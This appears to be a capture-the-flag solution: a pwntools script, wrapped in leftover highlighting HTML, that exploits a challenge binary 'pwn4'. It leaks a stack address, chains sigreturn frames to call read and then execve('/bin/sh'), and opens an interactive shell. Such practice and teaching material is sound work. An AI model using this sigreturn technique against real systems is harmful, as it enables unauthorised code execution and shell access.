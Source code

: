 <span class="avrasm">from pwn import *
sh = process(<span class="hljs-string">"./pwn4"</span>)
context<span class="hljs-preprocessor">.arch</span> = <span class="hljs-string">"amd64"</span>
begin = <span class="hljs-number">0x4000b0</span>
syscall = <span class="hljs-number">0x4000be</span>
<span class="hljs-preprocessor"># step 1 call write func to leak stack addr</span>
write_payload = p64(begin) + p64(begin) + p64(begin) <span class="hljs-preprocessor">#the sec place can be replaced by 0x4000b1 0x4000b2 why 3 addr becaus  after write it went to read func</span>
sh<span class="hljs-preprocessor">.send</span>(write_payload)

sh<span class="hljs-preprocessor">.send</span>(<span class="hljs-string">"\xb3"</span>)<span class="hljs-preprocessor">#attention can only send 1 byte to call write func</span>
stack_addr = u64(sh<span class="hljs-preprocessor">.recv</span>()[<span class="hljs-number">8</span>:<span class="hljs-number">16</span>])
print <span class="hljs-string">"stack_addr:"</span>,hex(stack_addr)

<span class="hljs-preprocessor"># step 2 create frame struct</span>
<span class="hljs-preprocessor">#read(0,stack_addr,0x400) </span>

frame = SigreturnFrame(kernel=<span class="hljs-string">"amd64"</span>)
frame<span class="hljs-preprocessor">.rax</span> = constants<span class="hljs-preprocessor">.SYS</span>_read
frame<span class="hljs-preprocessor">.rdi</span> = <span class="hljs-number">0x0</span>
frame<span class="hljs-preprocessor">.rsi</span> = stack_addr
frame<span class="hljs-preprocessor">.rdx</span> = <span class="hljs-number">0x400</span>
frame<span class="hljs-preprocessor">.rsp</span> = stack_addr
frame<span class="hljs-preprocessor">.rip</span> = syscall

read_payload = p64(begin)+p64(<span class="hljs-number">11111</span>)+str(frame)
sh<span class="hljs-preprocessor">.send</span>(read_payload)
<span class="hljs-preprocessor">#step 3 excu sigreturn </span>
sigreturn_payload = p64(syscall)+<span class="hljs-number">7</span>*<span class="hljs-string">"\x00"</span>
sh<span class="hljs-preprocessor">.send</span>(sigreturn_payload)

<span class="hljs-preprocessor">#step 4 create frame struct</span>
frame = SigreturnFrame(kernel=<span class="hljs-string">"amd64"</span>)
frame<span class="hljs-preprocessor">.rax</span> = constants<span class="hljs-preprocessor">.SYS</span>_execve
frame<span class="hljs-preprocessor">.rdi</span> = stack_addr+<span class="hljs-number">0x300</span>
frame<span class="hljs-preprocessor">.rip</span> = syscall

execv_frame_payload = p64(begin) + p64(<span class="hljs-number">1111</span>) + str(frame)
<span class="hljs-preprocessor">#step 5 excu sigreturn </span>
execv_frame_payload_all = execv_frame_payload + (<span class="hljs-number">0x300</span> - len(execv_frame_payload))*<span class="hljs-string">"\x00"</span> + <span class="hljs-string">"/bin/sh\x00"</span>
sh<span class="hljs-preprocessor">.send</span>(execv_frame_payload_all)

sh<span class="hljs-preprocessor">.send</span>(sigreturn_payload)  

sh<span class="hljs-preprocessor">.interactive</span>()</span></code></pre></div>